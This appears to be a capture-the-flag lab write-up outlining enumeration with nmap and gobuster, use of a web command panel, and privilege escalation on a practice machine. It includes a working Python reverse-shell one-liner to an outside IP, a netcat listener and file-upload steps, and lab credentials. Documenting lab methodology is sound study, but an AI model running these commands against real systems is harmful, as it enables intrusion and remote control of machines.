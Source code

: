 # Methodology

## Preparation
```bash
export IP="10.10.0.22"
```

## Port enumeration
```bash
mkdir -p nmap
nmap -v -sC -sV -oN nmap/initial $IP
nmap -v -p- -oN nmap/all_ports $IP
```

## HTTP File enumeration
```bash
mkdir -p gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Web interaction

### Login
http://$IP/login.php
> Use username and password found

### Commands

**Use the command panel**
http://$IP/portal.php

**Gather information**
```bash
ls
```
> list directory files

```bash
grep -R .
```
> read file content

**Test executable commands**
``` bash
python3 -c "print('hello')"
```
> test executable commands availability

## Prepare exploit

### Using python
``` bash
# get local IP
ip a show tun0

# Remote exploit
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.30.23",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Local listener
nc -lvnp 9999

# Establish stable bash using python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Establish stable bash using STTY

```

## Privilege escalation

### Using linpeas
```bash
# upload linpeas.sh using netcat

# remote
nc -lp 4444 > /dev/shm/lin.sh
# local
nc -w 3 $IP 4444 < linpeas.sh

# using Linpeas.sh to enumerate possible privilege escalation
bash /dev/shm/lin.sh
```

# Findings
R1ckRul3s
> View page source from http://$IP

Wubbalubbadubdub
> Web page content from http://$IP/robots.txt





# Tips

## Display all file contents

### Using grep
```bash
grep -R .

grep . clue.txt
```

### Using while
```bash
while read line; do echo $line; done < clue.txt
```




# New Tools

### Nikto
```bash
mkdir nikto
nikto -h http://$IP | tee nikto/results
```

### Revershell codes
> https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### John Hammond ready made tools
https://github.com/JohnHammond/poor-mans-pentest